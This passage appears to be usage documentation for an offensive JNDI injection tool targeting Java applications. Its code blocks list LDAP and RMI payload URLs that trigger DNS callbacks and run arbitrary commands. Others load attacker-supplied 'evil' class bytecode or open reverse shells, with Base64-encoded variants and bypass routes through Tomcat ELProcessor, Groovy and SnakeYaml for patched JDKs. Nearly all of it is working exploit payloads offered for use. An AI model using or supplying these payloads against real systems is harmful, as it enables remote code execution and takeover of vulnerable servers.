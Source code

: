 Most parameters support automatic Base64 URL decoding, that is, you can directly pass in plain text (command/IP/port/URL) or Base64 URL encoded content (some routes only accept Base64 URL encoded parameters, which will be specially noted below)

The following routes support both RMI and LDAP protocols except `/Deserialize/*` (LDAP deserialization)

For the RMI protocol, simply replace `ldap://` with `rmi://` in the URL

### Basic

Directly load remote classes via JNDI Reference

The Java version must be less than 8u121 (RMI protocol) or 8u191 (LDAP protocol)

```bash
# DNS request
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn
ldap://127.0.0.1:1389/Basic/DNSLog/eHh4LmRuc2xvZy5jbg==

# execute command
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/b3BlbiAtYSBDYWxjdWxhdG9y

# load custom class bytecode

# load via URL parameters
ldap://127.0.0.1:1389/Basic/FromCode/<base64-url-encoded-java-bytecode>
# load from the server running JNDIMap
ldap://127.0.0.1:1389/Basic/FromPath/<base64-url-encoded-path-to-evil-class-file>

# native reverse shell (Windows supported)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Basic/ReverseShell/MTI3LjAuMC4x/NDQ0NA==
```

### Bypass

Use the following methods to bypass higher-version JDK restrictions, support all Basic features

- Tomcat ELProcessor
- Groovy ClassLoader/Shell
- SnakeYaml

All of the above methods rely on BeanFactory, so the Tomcat version must be less than 8.5.79

```bash
# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator
```
